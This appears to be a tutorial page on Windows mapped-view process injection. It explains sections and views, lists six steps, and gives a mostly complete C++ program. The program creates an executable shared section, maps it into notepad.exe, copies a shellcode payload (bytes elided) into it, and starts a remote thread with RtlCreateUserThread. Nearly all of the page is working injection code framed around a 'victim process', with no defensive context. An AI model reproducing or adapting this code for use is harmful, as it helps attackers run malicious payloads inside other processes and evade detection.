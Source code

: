In order to explain this injection technique, we are going to explain what is a **section** and a **mapped view** as we are going to use those terms.

- A **section** is a memory zone that is shared between processes and can be created with `NtCreateSection` API
- Before a process can read/write to that block of memory, it has to map a view of the said section, which can be done with `NtMapViewOfSection`
- Multiple processes can read from and write to the section through the mapped views

The idea is to create a section in **our process and after that create a view to store the shellcode in that region. We can't store the shellcode in a region without creating a view. After that, create a view in the remote process to be able to read the shellcode of the region, and create a remote thread using this remote view to trigger the shellcode execution.**

This mechanism does not copy the shellcode to the remote process, as we write the shellcode in a section inside our process, but the victim process uses a view to "read" the shellcode of the section in our process.
These are the high-level steps to perform the mapped view code injection:

1. Create a section that is a new region of memory in our own process using the `NtCreateSection`, for example. 
2. To be accessible from our process and write shellcode into the section, we create a view pointing to that section, using `NtMapViewOfSection`, for example. 
3. Using the view, we copy the shellcode to the memory section using `memcpy` , as this function only needs a pointer. 
4. Obtain a handle to the remote process, as always, with `OpenProcess` for example.
5. Create a remote view of that section **in the remote process.** The remote process has now access to the shellcode. We can create a view with `NtMapViewOfSection`, for example. 
6. Execute the shellcode using any known triggering mechanism, for example, `RtlCreateUserThread`, which spawns a new thread in the victim process.

This is a snippet of code that can be used to create a **mapped view process injection:**


```
int main() {

	unsigned char payload[] = {
	  0xfc, 0x48, 0x83, ...
	  };

	wchar_t process_name[MAX_PATH] = L"notepad.exe";
	DWORD pid = 0;
	pid = findMyProc(process_name);
	if (pid == 0) {
		printf("PID not found :( exiting...\n");
		return EXIT_FAILURE;
	}

	HANDLE hSection;
	SIZE_T size = 4096;
	LARGE_INTEGER sectionSize = { size };
	typedef struct _LSA_UNICODE_STRING { USHORT Length;	USHORT MaximumLength; PWSTR  Buffer; } UNICODE_STRING, * PUNICODE_STRING;
	typedef struct _OBJECT_ATTRIBUTES { ULONG Length; HANDLE RootDirectory; PUNICODE_STRING ObjectName; ULONG Attributes; PVOID SecurityDescriptor;	PVOID SecurityQualityOfService; } OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;
	typedef struct _CLIENT_ID { PVOID UniqueProcess; PVOID UniqueThread; } CLIENT_ID, * PCLIENT_ID;
	using myNtCreateSection = NTSTATUS(NTAPI*)(OUT PHANDLE SectionHandle, IN ULONG DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL, IN PLARGE_INTEGER MaximumSize OPTIONAL, IN ULONG PageAttributess, IN ULONG SectionAttributes, IN HANDLE FileHandle OPTIONAL);
	myNtCreateSection fNtCreateSection = (myNtCreateSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtCreateSection"));

	// Create a memory section
	// http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FNtCreateSection.html
	fNtCreateSection(&hSection, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);

	// create a view of the memory section in the local process
	PVOID localSectionAddress = NULL;
	using myNtMapViewOfSection = NTSTATUS(NTAPI*)(HANDLE SectionHandle, HANDLE ProcessHandle, PVOID* BaseAddress, ULONG_PTR ZeroBits, SIZE_T CommitSize, PLARGE_INTEGER SectionOffset, PSIZE_T ViewSize, DWORD InheritDisposition, ULONG AllocationType, ULONG Win32Protect);
	myNtMapViewOfSection fNtMapViewOfSection = (myNtMapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtMapViewOfSection"));
	fNtMapViewOfSection(hSection, GetCurrentProcess(), &localSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_READWRITE);

	// create a view of the memory section in the target process
	PVOID remoteSectionAddress = NULL;
	HANDLE targetHandle = OpenProcess(PROCESS_ALL_ACCESS, false, pid);
	fNtMapViewOfSection(hSection, targetHandle, &remoteSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_EXECUTE_READ);

	// copy shellcode to the local view, which will get reflected in the target process's mapped view
	memcpy(localSectionAddress, payload, sizeof(payload));

	// Create the thread pointing to the view
	using myRtlCreateUserThread = NTSTATUS(NTAPI*)(IN HANDLE ProcessHandle, IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL, IN BOOLEAN CreateSuspended, IN ULONG StackZeroBits, IN OUT PULONG StackReserved, IN OUT PULONG StackCommit, IN PVOID StartAddress, IN PVOID StartParameter OPTIONAL, OUT PHANDLE ThreadHandle, OUT PCLIENT_ID ClientID);
	myRtlCreateUserThread fRtlCreateUserThread = (myRtlCreateUserThread)(GetProcAddress(GetModuleHandleA("ntdll"), "RtlCreateUserThread"));
	HANDLE targetThreadHandle = NULL;
	fRtlCreateUserThread(targetHandle, NULL, FALSE, 0, 0, 0, remoteSectionAddress, NULL, &targetThreadHandle, NULL);

	// printf("Local section address: %p\nRemote section address: %p\n", localSectionAddress, remoteSectionAddress);

	return EXIT_SUCCESS;

}
```

